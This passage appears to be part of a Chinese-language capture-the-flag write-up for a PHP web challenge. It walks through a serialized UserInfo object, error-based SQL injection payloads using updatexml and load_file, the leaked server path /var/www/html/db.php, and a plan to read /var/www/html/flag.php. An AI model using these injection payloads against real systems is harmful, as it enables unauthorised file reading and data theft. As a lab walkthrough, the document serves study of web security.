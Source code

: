 ```php
    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

该代码展示了一个UserInFo的类的具体内容和参数，以便之后的序列化处理

14.由网页显示的内容得：

**the contents of his/her blog**

**下面一块不可见区域为，我们输入的blog（博客）的内容，所以猜测如果我们输入的博客内容为flag.php,则会显示该文件的内容，但是我们要知道网站flag.php的具体文件路径**

**网页中源代码的描述这块内容:**
**src = 'data:text/html;base64,PCF.........'**

**所以data的类型是text文本型**

所以网页的源地址传输为data,猜测可能利用的是第四个字段data中的内容:

O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:13;s:4:"blog";s:7:"bai.com";} 

data字段中的内容是经过序列化处理的结果

15.利用报错注入获取flag.php的文件路径:

or(updatexml(1,concat('~',(SELECT(load_file("flag.php")),'~'),1))#



or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))#

通过筛选，发现网站过滤了'x'

所以用字符'~':or(updatexml(1,concat('~',(SELECT(load_file("flag.php")),'~'),1))#

返回报错内容:

[*] query error! (Incorrect parameter count in the call to native function 'updatexml')

**Fatal error**:  Call to a member function fetch_assoc() on boolean in **/var/www/html/db.php** on line **66**

所以我们猜测flag.php的地址为/var/www/html/flag.php

**其实，随便输入一个错误的参数都会报错显示地址/var/www/html/db.php，所以一定要注意任何报错信息**

16.所以blog=/var/www/html/flag.php

所以要爆出该文件的内容:select load_file("文件路径");可以获取该文件的内容
